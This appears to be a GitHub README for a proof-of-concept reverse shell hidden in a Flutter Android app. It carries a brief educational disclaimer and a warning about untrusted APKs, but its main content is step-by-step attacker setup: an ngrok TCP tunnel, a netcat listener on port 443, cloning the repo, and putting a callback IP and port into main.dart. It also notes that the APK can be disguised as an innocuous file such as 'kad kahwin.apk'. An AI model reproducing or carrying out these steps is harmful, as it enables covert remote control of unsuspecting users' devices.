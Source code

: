 # Image and Video
![image](https://github.com/user-attachments/assets/722a4ca1-d29f-4317-a4ac-f7615171ac67)
![image](https://github.com/user-attachments/assets/78edfea9-c019-443d-944c-0ea58b7c522c)

# POC Reverse Shell With Flutter Application

I’m sharing a proof of concept demonstrating how a reverse shell can be implemented within a Flutter application. This is a reminder to always download apps only from trusted sources. Malicious APKs can easily disguise themselves as legitimate apps, like "kad kahwin.apk."

I built this example app entirely in Flutter to show how vulnerabilities can appear even in custom applications, highlighting the need for caution when installing software.

This post is for educational purposes only, aimed at raising awareness about mobile app security. Please remember: avoid downloading apps from unverified sources! 🔒

Attention all resources shared here should only be used with proper permission. Do not use them for any harmful or illegal activities. Stay responsible. Great Power Comes Great Responsibility.

# Installation 
setup ngrok
- ./ngrok authtoken <your_auth_token>
- ./ngrok tcp 443 
- dig 2.tcp.ngrok.io (check ip address ngrok)
*take note of ngrok port and ip address:

setup listener
- nc -lvnp 443

clone repo
- git clone https://github.com/NormanSamsudin/poc-flutter-reverse-shell.git
 
configure reverse shell
- change ip address and port of "ngrok" on file main.dart [ip address: 3.22.53.161, port: 12875] 





